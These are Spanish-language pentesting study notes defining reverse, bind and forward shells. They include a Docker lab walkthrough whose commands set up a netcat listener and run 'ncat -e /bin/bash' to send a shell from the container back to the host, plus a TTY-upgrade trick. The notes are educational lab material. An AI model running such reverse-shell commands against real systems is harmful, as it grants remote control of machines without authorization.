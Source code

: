 
---------
- Tags: #ReverseShells #BindShells #ForwardShells
---------------
> **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

![[Ejemplo de Reverse Shells.png|896]]
- Creamos un archivo
```bin/bash
nvim dockerfile
```
- Desplegamos la maquina
```bin/bash
docker build -t webserver .
```
- En segundo plano con una consola virtual y de manera interactiva
```bin/bash
docker run -dit -p 80:80 --name myContainer my_image
```
- Conseguir una consola interactiva e instalamos ncat
```bin/bash
docker exec -it myContainer bash
apt install ncat
```
- Con la herramienta netcat ponernos en escucha
```bin/bash
nc -nlvp 443
```
- Desde la maquina interactiva en bash ponemos para recibir conexión
```bin/bash
ncat -e /bin/bash 172.17.0.1 443
```
- Para ver mejor el diseño en pantalla
```bin/bash
script /dev/null -c bash
```
>**Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

![[Ejemplo de BindShells.png]]

>**Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

![[Ejemplo de ForwardShells.png]]